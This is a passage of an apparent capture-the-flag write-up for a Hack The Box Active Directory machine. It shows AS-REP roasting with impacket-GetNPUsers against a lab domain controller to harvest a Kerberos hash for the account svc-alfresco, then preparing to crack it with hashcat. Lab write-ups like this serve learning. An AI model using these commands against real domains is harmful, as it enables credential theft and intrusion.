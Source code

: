 ![](./IMG/6.png)

2. Using tools GetNPUsers in impacket with the potential user list
```
impacket-GetNPUsers htb.local/ -dc-ip 10.129.95.210 -usersfile users.txt -format hashcat -outputfile hashes.asrepoast
```

![](./IMG/13.png)

3. Find a valid hash for svc-alfresco

![](./IMG/14.png)

4. Crack it by hashat, I need to identified the hash type

```
hashcat --example-hashes | grep -i krb
```
